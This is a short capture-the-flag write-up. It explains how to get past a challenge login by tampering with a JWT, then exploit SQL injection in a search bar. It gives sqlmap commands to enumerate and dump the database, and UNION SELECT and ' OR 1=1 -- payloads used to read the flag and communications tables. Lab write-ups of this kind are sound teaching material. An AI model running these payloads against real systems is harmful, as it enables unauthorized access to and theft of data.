







# Challenge writeup
## You shall not pass!
The challenge begins with a login that has to be bypassed using JWT attacks. The bypass is needed in order to get Superior Officer privilege to pass to the second step and get the flag.

Modify the JWT token and add the new string in the cookie.



Now your agent has Superior Officer privileges:



After login bypass, the second step is to exploit the SQL injection present in the search bar.

One way is to use `sqlmap` to find the vulnerability. First, enumerate *tables* and *columns* by using the command:
```
sqlmap --cookie "token=<token>" -u https://<istance>/dashboard?q=<query> --tables --columns
```



Then, with the following input `' UNION SELECT null,value,null,null FROM flags --` it was possibile to read the `flags` table. However, the flag is not here.



Further attempts might involve to read the other tables e.g. communications with `' UNION SELECT null,subject,content,null FROM communications --` or simplier `' OR 1=1 --` .



By doing Ctrl+F you can find the WPCTF flag: 



Another way is to directly dump the database using vulnerable parameter with `sqlmap`, using the following command:
```
sqlmap --cookie "token=<token> -u https://<istance>/dashboard?q=pp --dump
```
